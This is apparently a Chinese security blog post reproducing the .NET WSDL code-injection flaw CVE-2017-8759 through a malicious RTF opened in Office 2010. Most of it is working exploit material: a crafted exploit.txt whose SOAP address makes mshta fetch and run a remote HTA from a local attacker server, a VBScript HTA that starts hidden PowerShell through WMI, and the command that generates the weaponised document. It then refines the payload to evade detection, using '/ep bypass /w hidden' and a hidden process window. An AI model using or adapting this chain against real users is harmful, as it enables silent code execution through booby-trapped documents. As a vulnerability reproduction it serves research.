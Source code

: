 ```yaml
---
title: "Office CVE-2017-8759 复现"
date: 2019-08-01T00:00:00+08:00
draft: false
author: "X1r0z"

tags: ['office']
categories: ['漏洞复现']

hiddenFromHomePage: false
hiddenFromSearch: false
twemoji: false
lightgallery: true
ruby: true
fraction: true
fontawesome: true
linkToMarkdown: true
rssFullText: false

toc:
  enable: true
  auto: true
code:
  copy: true
  maxShownLines: 50
math:
  enable: false
share:
  enable: true
comment:
  enable: true
---
```



漏洞原理移步 [安全客](https://www.anquanke.com/post/id/86833).

环境 Windows7, Office 2010.

<!--more-->

## 复现过程

[bhdresh/CVE-2017-8759](https://github.com/bhdresh/CVE-2017-8759)

搭建服务器, 创建 exploit.txt 并更改 URL.

```
<definitions
    xmlns="http://schemas.xmlsoap.org/wsdl/"
    xmlns:soap="http://schemas.xmlsoap.org/wsdl/soap/"
    xmlns:suds="http://www.w3.org/2000/wsdl/suds"
    xmlns:tns="http://schemas.microsoft.com/clr/ns/System"
    xmlns:ns0="http://schemas.microsoft.com/clr/nsassem/Logo/Logo">
<portType name="PortType"/>
<binding name="Binding" type="tns:PortType">
<soap:binding style="rpc" transport="http://schemas.xmlsoap.org/soap/http"/>
<suds:class type="ns0:Image" rootType="MarshalByRefObject"></suds:class>
</binding>
<service name="Service">
<port name="Port" binding="tns:Binding">
<soap:address location="http://192.168.1.1?C:\Windows\System32\mshta.exe?http://192.168.1.1:8000/cmd.hta"/>
<soap:address location=";
    if (System.AppDomain.CurrentDomain.GetData(_url.Split('?')[0]) == null) {
        System.Diagnostics.Process.Start(_url.Split('?')[1], _url.Split('?')[2]);
        System.AppDomain.CurrentDomain.SetData(_url.Split('?')[0], true);
    } //"/>
</port>
</service>
</definitions> 
```

同目录下创建 cmd.hta.

```
<html>
<head>
<script language="VBScript">
Sub window_onload
	const impersonation = 3
	Const HIDDEN_WINDOW = 12
	Set Locator = CreateObject("WbemScripting.SWbemLocator")
	Set Service = Locator.ConnectServer()
	Service.Security_.ImpersonationLevel=impersonation
	Set objStartup = Service.Get("Win32_ProcessStartup")
	Set objConfig = objStartup.SpawnInstance_
	Set Process = Service.Get("Win32_Process")
	Error = Process.Create("powershell.exe -nop -w hidden calc.exe", null, objConfig, intProcessID)
	window.close()
end sub
</script>
</head>
</html>
```

生成文档.

```
cve-2017-8759_toolkit.py -M gen -w test.rtf -u http://192.168.1.1:8000/exploit.txt
```

打开文档.

![](https://exp10it-1252109039.cos.ap-shanghai.myqcloud.com/img/20190801222637.png)

复现成功, 命令只执行了一次, 但这里会先闪一下 hta 的窗口.

最开始复现的时候我有两个问题: 1. 为什么要通过 hta 执行 2. 为什么不能直接在 exploit.txt 中一次执行成功而非要用 hta.

## 改进载荷

关于第一个问题, 请看代码.

```
<soap:address location="http://192.168.1.1?C:\Windows\System32\mshta.exe?http://192.168.1.1:8000/cmd.hta"/>
<soap:address location=";
    if (System.AppDomain.CurrentDomain.GetData(_url.Split('?')[0]) == null) {
        System.Diagnostics.Process.Start(_url.Split('?')[1], _url.Split('?')[2]);
        System.AppDomain.CurrentDomain.SetData(_url.Split('?')[0], true);
    } //"/>
```

拼接在源文件中是这样的.

```
......
public Image()
{
    base.ConfigureProxy(this.GetType(), @"http://192.168.1.1?C:\Windows\System32\mshta.exe?http://192.168.1.1:8000/cmd.hta");
    //base.ConfigureProxy(this.GetType(),@";
    if (System.AppDomain.CurrentDomain.GetData(_url.Split('?')[0]) == null) {
        System.Diagnostics.Process.Start(_url.Split('?')[1], _url.Split('?')[2]);
        System.AppDomain.CurrentDomain.SetData(_url.Split('?')[0], true);
    } //");
}
......
```

原理中也提到了, 这是 .Net 一处拼接错误而导致的代码执行漏洞, 也就是说理论上我们能够执行任意代码.

而 xml 中的 location, 通过 ? 被分割成三个部分, 然后提取第二部分作为执行文件, 第三部分作为命令参数.

所以这个其实跟空格没有半点关系, 完全就是为了方便通过 ? 截取到命令和参数两个部分, 而第一个部分只是针对 .Net 的验证罢了, 只要符合 URL 规范就行. 之所以在这里要费劲心思截取 url 是因为 xml 语法的问题, 但 C# 的单引号只表示单个字符.

关于第二个问题, 为什么要通过 hta 执行?

如果说是针对低版本系统例如 2003, 那么其实还有很多种选择, 比如 regsvr32, regsvcs, 甚至你也可以直接通过下载 exe 来执行, 但这里访问的 hta 里执行的命令是 powershell, 那么为什么不直接一步到位呢?

前面说了, 这是代码执行漏洞, 理论上我们能够执行任意代码, 同样, 通过 Process.Start 启动的进程理论上也可以是任意文件, 比如.

```
<soap:address location="http://192.168.1.1?C:\Windows\System32\cmd.exe?/c calc.exe"/>
```

这样是能够执行成功的, 但如果换成 powershell 呢?

```
<soap:address location="http://192.168.1.1?C:\Windows\System32\WindowsPowerShell\v1.0\powershell.exe?-c calc.exe"/>
```

执行失败了. 我们仔细想想这两行代码之间有什么区别, 前者的命令参数是 /c, 后者的命令参数是 -c.

推测是 - 这个字符导致命令执行不成功的, 下面就要引入一个新姿势了.

```
powershell.exe /c calc.exe
```

这是可以成功的, 适用于大部分参数.

加上一点其它东西, 那么代码就可以改成.

```
<soap:address location="http://192.168.1.1?C:\Windows\System32\WindowsPowerShell\v1.0\powershell.exe?/ep bypass /noprofile /w hidden /c calc.exe"/>
```

执行成功. 不过你会发现 powershell 窗口还是会一闪而过, 即使我们指定了 /w hidden, 怎么办呢?

基于 C# 的特性, 我们可以通过 System.Diagnostics.Process.StartInfo 创建一个进程并将窗口设置为 hidden, 就像这样.

```
p.FileName = _url.Split('?')[1];
p.Arguments = _url.Split('?')[2];
p.WindowStyle = System.Diagnostics.ProcessWindowStyle.Hidden;
System.Diagnostics.Process.Start(p);
```

重新打开文档, 将会自动弹出计算器而不是先显示一遍窗口 :)

## 一些话

在写下这篇文章的时候又测试了一遍, 发现 -c 其实是可以执行成功的, 但通过带宏文档复现的时候确实是执行失败了, 只能通过 /c 方式绕过, 不过使用宏这种方式利用已经是很鸡肋的了, 还有很多比这更简单的方法.

上文中原来的 Payload 其实就是将行为和特征分离, 不过过程对我来说也算是一种尝试吧.

另外对于 rtf 的其它细节在之前的文章中已经讲过, 就不再重复说明了.
